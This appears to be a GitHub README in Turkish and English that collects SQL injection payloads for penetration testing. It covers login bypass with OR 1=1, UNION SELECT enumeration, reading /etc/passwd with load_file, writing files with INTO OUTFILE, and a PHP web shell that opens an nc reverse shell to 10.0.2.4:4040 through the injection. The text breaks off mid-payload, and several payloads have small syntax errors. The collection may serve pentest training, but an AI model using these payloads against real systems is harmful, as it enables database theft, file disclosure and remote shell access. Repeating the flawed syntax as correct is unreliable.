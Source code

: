 # SQLBypass-Penetration

## SQL Injection ve Active Directory Penetration Testing Örnekleri

### Temel SQL Injection

#### Örnek 1: Basit SQL Injection

### sql
#SELECT * FROM accounts WHERE username=david AND password='1234' AND 1=1#

### Exam 2: Login Bypass

#SELECT * FROM accounts WHERE username='david'# AND password='1234'

### Exam 3: OR Operatörü

#SELECT * FROM accounts WHERE username='david' AND password='1234' OR 1=1#

### Exam 4: SQL Injection Get Method

#http://example.com/login?username=david' OR '1'='1&password=1234

### UNION SELECT İşlemleri

#Exam 5: UNION SELECT Basic Usage

#username='david' UNION SELECT 1,2,3,4,5#

### Exam 6: Advanced Level SQL Injection

#1' AND 1=1#
#1' ORDER BY 1,2,3--+
#1' GROUP BY 1,2,3--+
#' UNION SELECT sum(columnname) from tablename--

### Get HEX

## Exam 7: HEX İle SQL Injection

#david' union select 1,table_name from information_schema.tables where table_schema = 0x64767761#

### Örnek 8: Read File

#1' union select 1,load_file('/etc/passwd')#

### Exam 9: Write File

#1' union select 1,'test',into outfile 'tmp/test.txt'#

### sql vulnerability Get Shell

# Exam 10: PHP Reverse Shell

#<?passthru("nc 10.0.2.4 4040 -e /bin/bash");?>

#1' union select 1,'<?passthru("nc 10.0.2.4 4040 -e /bin/bash");?>',into outfile 'tmp/mys
